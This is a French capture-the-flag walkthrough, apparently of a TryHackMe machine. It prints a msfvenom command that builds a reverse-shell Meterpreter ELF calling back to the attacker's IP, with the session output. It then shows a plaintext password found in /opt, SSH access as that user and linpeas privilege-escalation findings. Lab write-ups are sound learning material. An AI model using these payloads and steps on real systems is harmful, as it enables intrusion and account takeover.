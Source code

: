 Pour le fun on test de créer un shell en .elf avec msfvenom
puis on récupère un shell stable avec metasploit

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.14.59.209 LPORT=4445 -f elf > shell.elf
```
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.59.209:4445 
[*] Sending stage (1017704 bytes) to 10.10.116.71
[*] Meterpreter session 1 opened (10.14.59.209:4445 -> 10.10.116.71:57692) at 2023-09-04 09:33:19 -0400

meterpreter >
```

# Post exploit
Sur le serveur on trouve un fichier **wp-save.txt** dans le dossier **/opt** qui semble interessant.

```
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```
effectivement, il y a des cred dedans !
# Privesc to root !
Ce compte permet un acces via SSH avec la session de Aubreanna

1er flag présent sur le bureau :
```
THM{*************}
```

Linpeas trouve :

```
╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                                      
                                                                                                                                                                                
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
```
